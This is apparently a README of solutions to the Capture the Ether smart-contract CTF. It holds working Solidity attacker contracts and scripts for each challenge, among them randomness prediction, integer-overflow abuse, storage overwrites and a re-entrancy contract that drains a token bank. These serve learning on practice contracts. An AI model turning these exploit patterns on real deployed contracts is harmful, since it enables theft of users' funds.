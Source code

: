 # capture-the-ether-ctf-solutions

For most of these, I used Nader's excellent tutorial for a React + Ethers app and only provide the App.js contents:

[The Complete Guide to Full Stack Ethereum Development](https://dev.to/dabit3/the-complete-guide-to-full-stack-ethereum-development-3j13) 

## Solutions

<details>
    <summary>👋 Choose a Nickname</summary>

```javascript
import './App.css';
import { useState } from 'react';
import { ethers } from 'ethers'
import CaptureTheEther from './artifacts/contracts/CaptureTheEther.sol/CaptureTheEther.json'
 
const abi = [
 "function setNickname(bytes32 nickname)",
];
 
const challengeAddress = "..."
 
function App() {
 const [nickname, setNicknameValue] = useState()
 
 // request access to the user's MetaMask account
 async function requestAccount() {
   await window.ethereum.request({ method: 'eth_requestAccounts' });
 }
 
 // call the smart contract, send an update
 async function setNickname() {
   if (!nickname) return
   if (typeof window.ethereum !== 'undefined') {
     await requestAccount()
     const provider = new ethers.providers.Web3Provider(window.ethereum);
     const signer = provider.getSigner()
     const contract = new ethers.Contract(challengeAddress, abi, signer)
 
     const nicknameAsBytes32 = ethers.utils.formatBytes32String(nickname);
     console.log("Nickname is ", nickname, " and as bytes32: ", nicknameAsBytes32);
 
     const transaction = await contract.setNickname(
       nicknameAsBytes32,
       {
         gasLimit: 1500000
       })
 
     await transaction.wait()
   }
 }
 
 return (
   <div className="App">
     <header className="App-header">
       <button onClick={setNickname}>Set Nickname</button>
       <input onChange={e => setNicknameValue(e.target.value)} placeholder="Set nickname" />
     </header>
   </div>
 );
}
 
export default App;
```

</details>

<details>
    <summary>✌️ Guess the number</summary>

```javascript
import './App.css';
import { useState } from 'react';
import { ethers } from 'ethers'
 
const abi = [
 "function guess(uint8 n) public payable",
];
 
const challengeAddress = "..."
 
function App() {
 // request access to the user's MetaMask account
 async function requestAccount() {
   await window.ethereum.request({ method: 'eth_requestAccounts' });
 }
 
 async function guess() {
   if (typeof window.ethereum !== 'undefined') {
     await requestAccount()
     const provider = new ethers.providers.Web3Provider(window.ethereum);
     const signer = provider.getSigner()
     const contract = new ethers.Contract(challengeAddress, abi, signer)
 
     const transaction = await contract.guess(42,
       {
         gasLimit: 1500000,
         value: ethers.utils.parseEther('1')
       })
 
     await transaction.wait()
   }
 }
 
 return (
   <div className="App">
     <header className="App-header">
       <button onClick={guess}>Guess 42</button>
     </header>
   </div>
 );
}
 
export default App;
```

</details>

<details>
    <summary>🤫 Guess the secret number</summary>

I didn't save the Javascript for this one, but the key insight is that the answer is only a `uint8`. So just do something like this:

```python
for i in xrange(255):
    if keccak256(i) == 0xdb81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365:
        print(i)
        break
```

</details>

<details>
    <summary>🎲 Guess the random number</summary>

Look up the contract address in etherscan and look at the state change during the contract creation. The expected answer is going to be there in plain sight.

</details>

<details>
    <summary>💁‍♀️ Guess the new number</summary>
The number is now generated on demand, so we can't avoid writing some code. Just compute exactly the answer it expects and send it to the challenge contract, we don't even need to know what it is:

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface GuessTheNewNumberChallenge {
    function guess(uint8 n) external payable;
}

contract Guesser {
    constructor() payable {}

    receive() payable external {}
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
    
    function pullTheTrigger() public {
        GuessTheNewNumberChallenge instance = GuessTheNewNumberChallenge(address(...));
        uint8 answer = uint8(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))[31]);
        instance.guess{value: 1 ether}(answer);
    }
}
```

</details>

<details>
    <summary>🔮 Predict the future</summary>

We can exploit the fact that there are only 10 possible answers, so we can choose anything we want. And to avoid wasting ether, we use `require` to only send the transaction in a block that produces the right answer.

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface GuessTheNewNumberChallenge {
    function lockInGuess(uint8 n) external payable;
    function settle() external;
}

contract Guesser {
    GuessTheNewNumberChallenge instance = GuessTheNewNumberChallenge(address(...));
    uint8 expectedAnswer = 2;

    constructor() payable {}

    receive() payable external {}
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
    
    function lockInGuess() public {
        instance.lockInGuess{value: 1 ether}(expectedAnswer);
    }
    
    function pullTheTrigger() public {
        uint8 answer = uint8(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))[31]) % 10;
        
        // going to keep hitting this until we find a happy block
        require(answer == expectedAnswer);
        
        instance.settle();
    }
}
```

</details>

<details>
    <summary>🍳 Guess the block hash</summary>

Relevant [Solidity docs](https://docs.soliditylang.org/en/v0.8.6/units-and-global-variables.html?highlight=blockhash#block-and-transaction-properties):

`blockhash(uint blockNumber) returns (bytes32)`: hash of the given block when blocknumber is one of the 256 most recent blocks; otherwise returns zero

We can exploit that by guessing that the blockhash will become 0 in the future. Exactly 256 blocks in the future in fact 😅

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface GuessTheNewNumberChallenge {
    function lockInGuess(bytes32 hash) external payable;
    function settle() external;
}

contract Guesser {
    GuessTheNewNumberChallenge instance = GuessTheNewNumberChallenge(address(...));

    constructor() payable {}

    receive() payable external {}
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
    
    function lockInGuess() public {
        instance.lockInGuess{value: 1 ether}(0);
    }
    
    function pullTheTrigger() public {
        // wait for 256 blocks and then the blockhash of the settlement block will magically become 0 :)
        instance.settle();
    }
}

```

</details>

<details>
    <summary>🛍️ Token sale</summary>
Ping me if you know an analytical solution. I wasn't sure so I went with this python program to find the smallest value that causes an overflow:

```python
def requiredValueWei(numTokens):
 return (numTokens * 10**18) % 2**256
 
def causesOverflow(numTokens):
   return requiredValueWei(numTokens) < numTokens * 10**18
 
def formattedHex(num):
   return '0x' + hex(num)[2:].zfill(64)
 
def bisect(lower_bound, higher_bound):
   print(f'looking for smallest overflow candidate in [{formattedHex(lower_bound)}..{formattedHex(higher_bound)}]')
   candidate = (lower_bound + higher_bound) // 2
   if candidate in [lower_bound, higher_bound]:
       return higher_bound
  
   else:
       if causesOverflow(candidate):
           return bisect(lower_bound, candidate)
      
       else:
           return bisect(candidate, higher_bound)

i = 0
while True:
   numTokens = 2**i
   print(f'trying {hex(numTokens)}')
   if causesOverflow(numTokens):
       break
   i += 1
  
print('First power of 2 that causes an overflow:', i)
print(f'buying {numTokens} tokens would "only" require {requiredValueWei(numTokens)} wei')
 
numTokens = bisect(2**(i-1), 2**i)
print(f'buying {numTokens} tokens would "only" require {requiredValueWei(numTokens)} wei')
```

After that we can just:

```javascript
instance.buy{value: 415992086870360064 wei}(0x0000000000000012725dd1d243aba0e75fe645cc4873f9e65afe688c928e1f22);
instance.sell(1);
```

</details>


<details>
    <summary>🐳 Token whale</summary>

Deploy this approver contract and call `approveMe()`:

```javascript
pragma solidity >=0.7.0 <0.9.0;

interface TokenWhale {
    function approve(address spender, uint256 value) external;
}

contract Approver {
    TokenWhale instance;

    constructor(address theAddress) payable {
        instance = TokenWhale(theAddress);
    }

    receive() payable external {}
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
    
    function approveMe() public {
        instance.approve(msg.sender, 1000000);
    }
}
```

Then:

- transfer 1000 tokens to the Approver contract 
- we now have a balance of 0, so call `transferFrom(Approver, Approver, 1)`
- _transfer is dumb and will actually remove 1 token from `msg.sender` (aka us), underflowing us and giving us 0xffff..ffff tokens 🙌


</details>


<details>
    <summary>👴 Retirement fund</summary>

Just force some eth into the contract with a self destruct contract as described in [Mastering Ethereum](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#unexpected-ether).

</details>


<details>
    <summary>🗺️ Mapping</summary>

Write a value at key 0, notice where the state was changed in etherscan.

In my case the value was written at address `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`
so we compute the overflow key as:

```python
key = int('0x' + 'ff' * 32, 16) - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 + 1
```

Just set that key to 1 and you've overridden the `isComplete` boolean


</details>


<details>
    <summary>🙏 Donation</summary>

The Donation object is initially created as a storage pointer, so the value amount actually overwrites the owner field.

Just need to pass an appropriate amount of wei in order to become the owner (`address / 10**36`).

</details>


<details>
    <summary>📆 Fifty years</summary>

This one gave me a ton of grief 😅 It's easy to end up in a state where the contributions are so messed up that it becomes difficult or impossible to recover the funds.

Two key insights:

- `require(timestamp >= queue[queue.length - 1].unlockTimestamp + 1 days);` can be overflowed, so we can create a tx with a giant `unlockTimestamp` and then the next (overflowed) one has an `unlockTimestamp` in the past (so we can withdraw it and everything else before it)

- like in the previous challenge, new Contributions are initialized as a storage pointer, so they stomp the queue (with the amount of the contibution) and the head values (with the `unlockTimestamp`).

Step by step:

- upsert(1, N) 1 wei (should set length=2, head=N) (where N = 0xff..ff - 2 day + 1 = 115792089237316195423570985008687907853269984665640564039457584007913129467136)
- upsert(2, M) 2 wei (should set length=3, head=M) where M = 0xff..ff - 1 day + 1 = 115792089237316195423570985008687907853269984665640564039457584007913129553536

⚠️ problem is at this point we've added 3 wei to the balance of the contract, but because it increases length by pushing, that messes up the contribution amount by 1 every time. So by the time it computes the total, it wants to send 1 eth and 5 wei, which causes a revert because the contract only has 1 eth and 3 wei
✅ solution: we just need to pad with another "fake" contribution where we add 2 wei, but we don't want to withdraw it. It's just so that the total balance of the contract is sufficient!

- upsert(3, 0) 2 wei (should set length=3 (wrong but ok), head=0)
- withdraw(2) -> should properly be able to grab everything from head=0 to length=3 and give us the money

</details>

<details>
    <summary>🛂 Fuzzy identity</summary>

Using the create2 opcode, we can control a bit more the address of the generated contracts, so given that this is the contract that we want to deploy:

```solidity
contract MyNameIsSmarx {
    function name() external pure returns (bytes32) {
        return bytes32("smarx");
    }
    
    function pullTheTrigger() public {
        FuzzyIdentityChallenge instance = FuzzyIdentityChallenge(address(...));
        instance.authenticate();
    }
}
```

Compile it and note its bytecode. 
Then deploy a deployer contract and note its address:

```solidity
contract SmarxDeployer {
    event FoundOne(address);
    
    function deploySmarx(bytes memory code, uint256 salt) public returns(address) {
        address addr;
        assembly {
          addr := create2(0, add(code, 0x20), mload(code), salt)
          if iszero(extcodesize(addr)) {
            revert(0, 0)
          }
        }
        
        emit FoundOne(addr);
        return addr;
    }
}
```

Then we run [create2.py](https://github.com/karmacoma-eth/yolo-evm#create2py):

```shell
python3 create2.py <deployer_addr> 'lambda addr: "badc0de" in addr.lower()' <mynameissmarx_bytecode>
```

until it finds a salt value that will generate a MyNameIsSmarx contract with an address that contains `badc0de`.


</details>

<details>
    <summary>🔑 Public key</summary>

We got to get the r, s and v values from the signature of this transaction:
https://ropsten.etherscan.io/tx/0xabc467bedd1d17462fcc7942d0af7874d6f8bdefee2b299c9168a216d3ff0edb

From r, s, and v we should be able to recover the public key of the account.

```javascript
import './App.css';
import { useState } from 'react';
import { ethers } from 'ethers'
 
 
const abi = [
 "function authenticate(bytes publicKey) public",
];
 
const challengeAddress = "..."
 
function App() {
 async function requestAccount() {
   await window.ethereum.request({ method: 'eth_requestAccounts' });
 }
 
 async function pullTheTrigger() {
   if (typeof window.ethereum !== 'undefined') {
     await requestAccount()
     const provider = new ethers.providers.Web3Provider(window.ethereum);
     const signer = provider.getSigner()
 
     // from https://ropsten.etherscan.io/getRawTx?tx=0xabc467bedd1d17462fcc7942d0af7874d6f8bdefee2b299c9168a216d3ff0edb
     const tx = ethers.utils.parseTransaction('0xf87080843b9aca0083015f90946b477781b0e68031109f21887e6b5afeaaeb002b808c5468616e6b732c206d616e2129a0a5522718c0f95dde27f0827f55de836342ceda594d20458523dd71a539d52ad7a05710e64311d481764b5ae8ca691b05d14054782c7d489f3511a7abf2f5078962')
    
     // code to recover the public key from https://ethereum.stackexchange.com/questions/78815/ethers-js-recover-public-key-from-contract-deployment-via-v-r-s-values
     const expandedSig = {
       r: tx.r,
       s: tx.s,
       v: tx.v
     };
    
     const signature = ethers.utils.joinSignature(expandedSig)
     const txData = {
       gasPrice: tx.gasPrice,
       gasLimit: tx.gasLimit,
       value: tx.value,
       nonce: tx.nonce,
       data: tx.data,
       chainId: tx.chainId,
       to: tx.to // you might need to include this if it's a regular tx and not simply a contract deployment
     }
 
     const rsTx = await ethers.utils.resolveProperties(txData)
     const raw = ethers.utils.serializeTransaction(rsTx) // returns RLP encoded tx
     const msgHash = ethers.utils.keccak256(raw) // as specified by ECDSA
     const msgBytes = ethers.utils.arrayify(msgHash) // create binary hash
     const recoveredPubKey = ethers.utils.recoverPublicKey(msgBytes, signature)
 
     // recoveredPubKey is uncompressed, so starts with 0x04
     const compressedPubKey = ethers.utils.arrayify(recoveredPubKey).slice(1)
     const contract = new ethers.Contract(challengeAddress, abi, signer)
    
     // we need to submit the compressedPubKey, otherwise the hash won't match on the smart contract side
     await contract.authenticate(compressedPubKey, {gasLimit: 1500000})
   }
 }
 
 return (
   <div className="App">
     <header className="App-header">
       <button onClick={pullTheTrigger}>Pull the trigger</button>
     </header>
   </div>
 );
}
 
export default App;
```

</details>

<details>
    <summary>⏳ Account takeover</summary>

Haven't figured out this one yet 😔

</details>

<details>
    <summary>🧠 Assume ownership</summary>

Like in the Ethernaut challenge, what looks like a constructor is actually a public function, so just call it to become the owner.

</details>

<details>
    <summary>🏦 Token Bank</summary>

1. Withdraw the tokens from the bank
2. Transfer them to the Heist contract
3. the Heist contract deposits them to the bank
4. the Heist contract withdraws them, but exploits re-entrancy in withdraw

```solidity
contract Heist {
    TokenBankChallenge bank = TokenBankChallenge(...);
    SimpleERC223Token token = SimpleERC223Token(...);
    bool firstTime = true;

    function deposit() public {
        token.transfer(bank, token.balanceOf(this));
    }

    function withdraw() public {
        // we're going to reentrancy the heck out of this
        bank.withdraw(500000 * 10**18);
    }
    
    function tokenFallback(address from, uint256 value, bytes) public {
        if (from != address(bank)) {
            return;
        }
        
        if (!firstTime) {
            return;
        }
        
        firstTime = false;
        withdraw();
    }
    
    function drain() public {
        token.transfer(msg.sender, token.balanceOf(this));
    }
}
```

</details>